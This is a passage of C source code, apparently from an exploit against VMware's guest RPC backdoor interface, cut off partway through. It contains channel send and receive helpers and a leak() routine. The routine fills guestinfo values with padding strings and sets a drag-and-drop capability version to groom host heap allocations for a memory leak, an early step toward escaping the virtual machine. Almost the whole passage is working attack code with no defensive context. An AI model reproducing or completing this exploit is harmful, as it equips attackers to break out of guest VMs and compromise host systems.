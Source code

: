 ```c
    if(!res){
        printf("fail to open channel!\n");
        return;
    }
    channel_set_len(tmp.cookie1,tmp.cookie2,tmp.num,strlen(cmd),&res);
    if(!res){
        printf("fail to set len\n");
        return;
    }
    channel_send_data(tmp.cookie1,tmp.cookie2,tmp.num,strlen(cmd)+0x10,cmd,&res);

    channel_recv_reply_len(tmp.cookie1,tmp.cookie2,tmp.num,&len,&res);
    if(!res){
        printf("fail to recv data len\n");
        return;
    }
    printf("recv len:%d\n",len);
    data = malloc(len+0x10);
    memset(data,0,len+0x10);
    for(i=0;i<len+0x10;i+=4){
        channel_recv_data(tmp.cookie1,tmp.cookie2,tmp.num,i,data,&res);
    }
    printf("recv data:%s\n",data);
    channel_recv_finish(tmp.cookie1,tmp.cookie2,tmp.num,&res);
    if(!res){
        printf("fail to recv finish\n");
    }

    channel_close(tmp.cookie1,tmp.cookie2,tmp.num,&res);
    if(!res){
        printf("fail to close channel\n");
        return;
    }
}
void leak(){
    struct channel chan[10];
    int res=0;
    int len,i;  
    char pay[8192];
    char *s1 = "info-set guestinfo.a AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
    char *data;
    char *s2 = "info-get guestinfo.a";
    char *s21= "info-get guestinfo.a AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
    char *s3 = "1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
    char *s4 = "tools.capability.dnd_version 4";
    char *s5 = "vmx.capability.dnd_version";
    //init data
    run_cmd(s1); // set the message len to be 0x100, so when we call info-get ,we will call malloc(0x100);
    run_cmd(s4);

    //first step 
    channel_open(&chan[0].cookie1,&chan[0].cookie2,&chan[0].num,&res);
    if(!res){
        printf("fail to open channel!\n");
        return;
    }
```